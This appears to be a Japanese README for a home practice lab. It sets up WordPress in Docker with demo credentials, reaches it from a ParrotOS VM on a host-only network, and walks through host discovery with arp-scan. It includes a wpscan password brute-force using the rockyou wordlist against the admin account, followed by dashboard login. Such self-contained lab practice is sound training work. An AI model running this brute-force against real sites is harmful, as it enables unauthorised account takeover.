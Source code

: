 ### docker側
- dockerデスクトップを起動する
- compose.yamlのファイルまで移動する
- `docker compose up -d`
- dockerでwordpressを設定のためWindowsのブラウザでアクセスする。`http://localhost:8080/wp-admin`
  - ユーザ名:hitoshi
  - パスワード:dragon
- 起動を確認したら消してもいい

### virtualBox
- Parrotのネットワークの設定をホストオンリーであるのを確認
- ParrotOSを起動する
- `sudo arp-scan -l`Windowsっぽいのを探す
  - `192.168.56.100`以外のアドレス 
- Parrotのブラウザでさっき探したIPアドレス:8080でアクセスする。アクセスできることを確認する

### 攻撃
- wpscanをする
  - `wpscan --url http://アドレス:8080 -U 'hitoshi' -P /usr/share/wordlists/rockyou.txt` 
- ダッシュボードにログインする
  - `http://アドレス:8080/wp-login.php`
